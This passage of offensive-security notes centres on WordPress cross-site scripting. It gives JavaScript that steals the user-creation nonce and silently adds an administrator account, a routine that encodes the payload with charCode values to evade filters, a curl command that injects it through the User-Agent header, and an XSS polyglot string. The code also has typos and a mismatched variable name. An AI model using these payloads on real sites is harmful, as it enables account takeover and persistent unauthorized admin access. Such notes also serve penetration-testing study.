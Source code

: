 [Shift8 Article - Create an Admin user](https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/) 
```js
// Get the Wordpress Nounce in Javascript
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var wp_nonceRegex = /ser" value="([^"]*?)"/g;
wajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
// Then create a new admin user with JavaScript
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=theattacker&email=theattacker@whatever.com&pass1=attackpass&pass2=attackpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```
Deliver Payload - article recommends [javascript-minifier.com](https://javascript-minifier.com/) - Use Minification and encoding with JavaScript in Browser developer console to encode minifed Javascript payloads
```js
// Use or similar to minify JavaScript: 
// https://jscompress.com 
// https://javascript-minifier.com/)
// Then encode:
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

Use `curl` to send via `burpsuite` proxy for modification if required to a the vulnerable web site
```bash
curl -i http://vulnwordpress.com --user-agent "<script>eval(String.fromCharCode($encodedJS))</script>" --proxy 127.0.0.1:8080
```
## XSS Polyglots
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```
